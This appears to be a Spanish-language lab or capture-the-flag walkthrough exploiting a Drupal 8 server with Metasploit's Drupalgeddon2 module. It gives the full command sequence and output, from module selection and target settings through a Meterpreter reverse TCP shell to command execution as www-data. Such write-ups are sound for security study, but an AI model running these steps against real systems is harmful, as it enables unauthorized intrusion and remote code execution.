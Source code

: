 Iniciamos la busque del exploit
```bash
msf6 > search drupal 8
```

Ahora usaremos el siguiente exploit
```bash
#   Name                                           Disclosure Date  Rank       Check  Description
-   ----                                           ---------------  ----       -----  -----------
0   exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
```

Seleccionamos el exploit numero 0
```bash
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
```

Ahora necesitamos ver las configuraciones, para setearlas:
```bash
show options
```

Como tenemos la conexion atraves de la interfaz de ligolo, Seteamos la ip y el puerto del objetivo
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 172.17.0.2
RHOST => 172.17.0.2
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 80
```

Todo lo demas esta configurado por defecto, En caso de que no seteamos los valores,
Ahora ejecutamos el exploit
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
[*] Started reverse TCP handler on 192.168.100.26:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (40004 bytes) to 192.168.100.24
[*] Meterpreter session 1 opened (192.168.100.26:4444 -> 192.168.100.24:55892) at 2025-08-24 23:28:45 +0000
```

Ahora lanzamos una shell para poder ejecutar comandos:
```bash
meterpreter > shell
Process 290 created
```

Tenemos ejecucion de comandos:
```bash
Channel 0 created.                                                                                                                                                                                                                                                            
whoami                                                                                                                                                                                                                                                                        
www-data
```
